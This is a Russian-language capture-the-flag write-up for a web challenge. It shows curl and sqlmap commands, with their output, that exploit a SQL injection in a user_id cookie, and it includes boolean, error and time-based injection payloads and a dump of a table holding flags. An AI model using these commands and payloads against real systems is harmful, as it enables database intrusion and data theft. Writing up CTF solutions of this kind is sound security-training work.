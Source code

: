 1. `curl -v http://counter.ctf2019.rocks/`
Видим что подсчет ведется в зависимости от куки user_id=2
Подставив в куку букву, получаем mysqli_sql_exception
```bash
curl http://counter.ctf2019.rocks/ --cookie "user_id=a"
<br />
<b>Fatal error</b>:  Uncaught mysqli_sql_exception: Unknown column 'a' in 'where clause' in /var/www/index.php:9
Stack trace:
#0 /var/www/index.php(9): mysqli-&gt;query('UPDATE `count` ...')
#1 {main}
  thrown in <b>/var/www/index.php</b> on line <b>9</b><br />
```
2. Натравливаем sqlmap
```bash
sqlmap -u http://counter.ctf2019.rocks/ --cookie "user_id=1" --level 2
Parameter: user_id (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: user_id=1 AND 7241=(SELECT (CASE WHEN (7241=7241) THEN 7241 ELSE (SELECT 2316 UNION SELECT 2599) END))-- stfV

    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: user_id=1 AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7176766271,(SELECT (ELT(9237=9237,1))),0x71786b7a71,0x78))s), 8446744073709551610, 8446744073709551610)))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user_id=1 AND (SELECT 7725 FROM (SELECT(SLEEP(5)))VPcu)
---
```
3. Смотрим таблицы
```bash
sqlmap -u http://counter.ctf2019.rocks/ --cookie "user_id=1" --level 2 --tables

Database: counter
[2 tables]
+---------------------------------------+
| count                                 |
| secret                                |
+---------------------------------------+
```
4. Дампим secret
```bash
sqlmap -u http://counter.ctf2019.rocks/ --cookie "user_id=1" --level 2 --dump secret

[2 entries]
+-----------------------------------------+
| secret                                  |
+-----------------------------------------+
| qlvnz{74223k502uy013289w95g9yu0x26h985} |
| WGCTF{99CAF43C7F7F18B87DD6B3DCAE1CD020} |
+-----------------------------------------+
```
Собственно флаг. 

5. Доп зашифрован Виженером, пользуемся https://www.dcode.fr/vigenere-cipher

Второй найден в http://counter.ctf2019.rocks/robots.txt